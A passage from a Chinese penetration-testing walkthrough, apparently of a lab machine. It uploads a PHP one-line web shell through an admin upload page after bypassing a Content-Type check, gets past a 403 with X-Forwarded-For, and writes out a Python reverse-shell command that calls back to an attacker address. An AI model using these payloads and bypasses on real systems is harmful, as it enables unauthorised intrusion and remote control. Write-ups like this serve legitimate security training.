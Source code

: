 进入了后台页面，发现好像有上传页面

![image-20220216113517608](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20220216113517608.png)

![image-20220216113658637](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20220216113658637.png)

写一句话木马a.php

```
<?php $var=shell_exec($_GET['cmd']); echo $var ?>
```

![image-20220216114951617](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20220216114951617.png)

初次上传发现服务端有对上传文件的校验

![image-20220216115137076](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20220216115137076.png)

经过尝试修改Content-Type即可绕过上传成功

![image-20220216115304086](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20220216115304086.png)

访问a.php（上传后修改了名字）

`http://192.168.137.233/adminstration/upload/files/1644983531a.php`

记得添加X-Forwarded-For绕过403

![image-20220216115527530](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20220216115527530.png)

页面访问成功为空

![image-20220216115622776](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20220216115622776.png)

尝试执行命令

查看当前用户

![image-20220216115804186](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20220216115804186.png)

为普通权限用户

## 三、提权

### 查看目标服务器上是否有python

![image-20220216120212970](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20220216120212970.png)

### 反弹shell

构造payload

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.137.22",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
